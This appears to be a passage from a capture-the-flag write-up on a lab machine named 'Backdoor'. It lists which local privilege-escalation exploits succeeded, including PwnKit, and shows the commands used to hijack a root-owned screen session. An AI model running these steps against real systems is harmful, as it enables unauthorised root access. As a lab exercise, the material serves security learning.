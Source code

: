 I tried all suggested exploits.
- cve_2021_3493_overlayfs : failed
- cve_2021_4034_pwnkit_lpe_pkexec : succeed
- cve_2022_0995_watch_queue : failed
- exploit/linux/local/docker_cgroup_escape : failed
- exploit/linux/local/pkexec : failed
- exploit/linux/local/su_login : failed
- exploit/linux/local/sudo_baron_samedit : failed

`pkexec` exploit works, but let's use the intended approach.

### Exploit screen

Recalling the `/proc/{pid}/cmdline` check, there was  another command on different PID.

```bash
874: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
```

It seems that `screen` is running.

```bash
user@Backdoor:~$ ps aux | grep screen

root         874  0.0  0.0   2608  1600 ?        Ss   09:48   0:04 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

The process seems to be run by `root`. So probably the next vector to work on.

[Hacktricks](https://book.hacktricks.wiki/ko/linux-hardening/privilege-escalation/index.html?highlight=screen#screen-sessions-hijacking) has a guide to exploit this.

First, check existing screens.

```bash
user@Backdoor:~$ screen -ls
screen -ls
No Sockets found in /run/screen/S-user.


user@Backdoor:~$ screen -ls root/
screen -ls root/
There is a suitable screen on:
        977.root        (03/10/25 09:48:47)     (Multi, detached)
```

Only the screen for `root` exists.
I can connect to this screen as follows;

```bash
user@Backdoor:~$ screen -r root/
screen -r root/
Please set a terminal type.


user@Backdoor:~$ TERM=screen screen -r root/
TERM=screen screen -r root/
```
